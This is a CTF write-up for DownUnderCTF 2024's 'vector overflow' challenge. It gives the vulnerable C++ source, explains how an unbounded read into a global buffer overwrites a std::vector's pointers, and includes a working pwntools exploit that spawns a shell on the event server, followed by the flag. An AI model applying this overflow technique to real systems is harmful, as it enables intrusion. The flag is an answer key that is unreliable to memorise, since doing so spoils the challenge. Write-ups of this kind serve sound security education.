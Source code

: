 https://ctftime.org/event/2284

# vector overflow (pwn)

Please overflow into the vector and control it!

nc 2024.ductf.dev 30013

https://play.duc.tf/challenges#vector%20overflow-42

## Analysis

We are given the following code:

```c++
#include <cstdlib>
#include <iostream>
#include <string>
#include <vector>

char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};

void lose() {
    puts("Bye!");
    exit(1);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int main() {
    char ductf[6] = "DUCTF";
    char* d = ductf;

    std::cin >> buf;
    if(v.size() == 5) {
        for(auto &c : v) {
            if(c != *d++) {
                lose();
            }
        }

        win();
    }

    lose();
}
```

We can see that `std::cin >> buf;` allows us to overflow `buf` into `v`.

A `std::vector` is typically implemented as three pointers:

1) A pointer to start to the underlying allocation
2) A pointer to end of the currently in-use region of the underlying allocation
3) A pointer to the end of the underlying allocation - recall that vectors can have excess capacity

When we overflow `buf` we can change the way that code that interacts with `v` behaves by altering the pointers within `v`.

## Solution

1) Note the address of `buf`, using ghidra or ida, as `0x4051e0`
    - There is no PIE in this binary
2) Write `DUCTF` to the start of `buf` - we'll need to this pass the `c != *d++` check
3) Write `0` up to the end of `buf`
4) Overwrite `v` such that it point to `buf`
    - The vector should appear to contain 5 elements
    - The elements should appear to be the characters `DUCTF` that we wrote into `buf` earlier
    - In this case we can set the capacity of the array equal to 5 by setting the same pointer as we use to indicate the end of the in-use region

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./vector_overflow", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("2024.ductf.dev", 30013)

BUF = 0x4051e0

payload = b""
payload += b"DUCTF"
payload += b"\x00" * 11 # fill up to 16 bytes
payload += p64(BUF)     # v.start
payload += p64(BUF + 5) # v.end
payload += p64(BUF + 5) # v.capacity

p.sendline(payload)

p.interactive()
```

## Flag
`DUCTF{y0u_pwn3d_th4t_vect0r!!}`

smiley 2024/07/06
